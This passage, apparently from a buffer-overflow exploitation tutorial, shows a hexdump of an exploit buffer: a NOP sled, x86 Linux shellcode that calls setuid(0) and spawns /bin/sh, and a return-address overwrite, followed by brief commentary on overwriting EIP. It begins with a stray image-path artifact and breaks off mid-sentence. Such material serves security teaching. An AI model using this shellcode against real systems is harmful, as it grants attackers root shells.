 00000050 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000060 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000070 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000080 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000090 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
000000a0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
000000b0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
000000c0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
000000d0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
000000e0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
000000f0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000100 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000110 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000120 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000130 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000140 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000150 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000160 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000170 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000180 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
00000190 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
000001a0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
000001b0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
000001c0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
000001d0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |&#8230;&#8230;&#8230;&#8230;&#8230;.|
  
000001e0 90 6a 17 58 31 db cd 80 31 d2 6a 0b 58 52 68 2f |.j.X1ÛÍ.1Òj.XRh/|
  
000001f0 2f 73 68 68 2f 62 69 6e 89 e3 52 53 89 e1 cd 80 |/shh/bin.ãRS.áÍ.|
  
00000200 f4 2f fd a7 |ô/ý§|
  
00000204
  
** 

See all of our nops followed by the shellcode?

We now have the address we want to overwrite $eip with. Lets assume we didn&#8217;t
  
know the buffer was only [10] , since we only overwrote it with “A”&#8217;s there
  